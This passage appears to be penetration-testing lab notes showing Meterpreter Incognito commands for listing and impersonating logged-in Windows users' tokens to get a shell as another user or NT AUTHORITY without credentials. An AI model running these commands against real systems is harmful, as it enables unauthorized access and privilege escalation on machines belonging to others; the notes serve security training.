

## Automation
We can use the Meterpreter Incognito module to impersonate any logged in users and obtain code execution in their context without access to any passwords or hashes.

We simply run the following commands on our meterpreter session:
```Metasploit
load incognito //loads the incognito module
help incognito //shows various incognite commands

list_tokens -u //lists all tokens by unique username
impersonate_token corp1\\admin //impersonates a token and runs our shell as the user
```


we get a shell as NT AUTHORITY:


